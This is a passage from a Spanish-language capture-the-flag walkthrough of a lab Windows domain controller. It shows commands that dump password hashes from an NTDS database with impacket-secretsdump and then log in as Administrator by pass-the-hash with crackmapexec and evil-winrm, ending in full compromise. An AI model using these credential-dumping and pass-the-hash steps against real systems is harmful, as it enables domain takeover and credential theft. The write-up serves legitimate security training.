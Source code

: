 > [ ! ] NOTAS: Si el download no funcciona, siempre podemos tratar de montar un directorio compartido a nivel de red con 
```bash
 impacket-smbfolder 
```


Ya podemos dumpear el ntds con 
```bash
 impacket-secretsdump 
```


```bash
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

Ya podemos ver todos los hashes de los usuarios activos del systema.

```bash
crackmapexec winrm 10.10.10.192 -u 'Administrator' -H 194fb5e5179499be6424d4cd53b99e
```

Pwn3d!!!!


```bash
evil-winrm -i 10.10.10.192 -u 'Administrator' -H 194fb5e5179499be6424d4cd53b99e
whoami 
#Output
blackfield\administrator
```

Aqui hemos rooteado la maquina y podemos leer la flag.
